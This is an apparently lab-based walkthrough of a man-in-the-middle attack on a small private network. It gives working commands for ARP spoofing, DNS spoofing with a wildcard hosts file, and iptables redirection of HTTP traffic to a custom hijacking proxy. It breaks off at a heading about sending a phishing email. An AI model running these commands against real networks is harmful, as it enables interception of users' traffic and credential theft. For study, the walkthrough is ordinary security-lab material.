 <mark style="color:red;">**Attacker**</mark>

* Kali Linux
* 10.0.2.5

**Gateway**

* 10.0.2.1

### Attacking commands

**Terminal 1**&#x20;

* Enable IPv4 forwarding

```bash
$ sudo sysctl -w net.ipv4_ip_forward=1
```

* Create a firewall rule to redirect traffic to TCP port 80 (HTTP) to port 8080

```bash
$ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

* Compile and run the HTTP proxy

```bash
$ gcc mitm_proxy_http-hijacK.c -o http-proxy && sudo ./http-proxy
```

{% embed url="https://github.com/Jarrettgohh/c-sockets/blob/main/mitm_proxy_http_hijack.c" %}

**Terminal 2**

* Drop all DNS query destined for the actual gateway

```bash
$ sudo iptables -A FORWARD -d 10.0.2.1 -p udp --dport 53 -j DROP
```

* Load DNS hosts file

```bash
$ cat hosts.spoof
10.0.2.5 *
```

* Run DNS server

```bash
$ sudo dnsspoof -i eth0 -f hosts.spoof
```

**Terminal 3**

* Run the ARP spoof attack

```bash
$ sudo arpspoof -i eth0 -t 10.0.2.4 10.0.2.1 -r
```

**Craft and send a malicious phishing email**
